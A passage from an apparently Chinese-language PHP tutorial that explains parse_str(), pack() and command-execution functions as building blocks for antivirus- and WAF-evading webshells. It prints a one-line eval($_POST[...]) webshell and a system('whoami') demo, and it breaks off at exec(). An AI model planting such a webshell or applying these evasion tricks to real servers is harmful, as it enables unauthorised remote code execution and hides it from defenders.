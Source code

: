 ```php
parse_str("name=Peter&age=43");
echo $name."<br>";      //Peter
echo $age;              //43

parse_str("name=Peter&age=43",$myArray);
print_r($myArray);       //Array ( [name] => Peter [age] => 43 )
```

### 2.4 pack()

**`pack()` 函数函数把数据装入一个二进制字符串**

Demo：简单来说，就是将指定编码的数字转成字符串

```php
echo pack("C3",80,72,80);   //ASCII 编码转换为 PHP
echo pack("H*",4161627973735465616d);    //16 进制编码转换为 AabyssTeam
```

其他参数请参考菜鸟教程： [https://www.runoob.com/php/func-misc-pack.html](https://www.runoob.com/php/func-misc-pack.html)

## 3# 命令执行类函数

### 3.0 Tips

命令执行类函数在”某些情况“下是非常危险的，所以往往遭到杀毒软件和 WAF 的重点关注，所以在做免杀的时候，为了绕过污点检测往往都要将命令执行类函数进行拼接、重组、加密、混淆来规避查杀。

### 3.1 eval()

**`eval()` 函数把字符串按照 PHP 代码来计算，即执行 PHP 代码**

Demo：将其中的内容按照 PHP 代码执行

```php
echo 'echo "我想学php"';     //echo "我想学 php"
eval('echo "我想学php";');   //"我想学 php"
```

Demo：一句话木马将参数传到 `eval()` 函数内执行

```php
@eval($_POST['AabyssTeam']);
```

### 3.2 system()

**`system()` 函数的主要功能是在系统权限允许的情况下，执行系统命令（Windows 系统和 Linux 系统均可执行）**

Demo：执行 Whoami 并回显

```php
system('whoami');
```

### 3.3 exec()

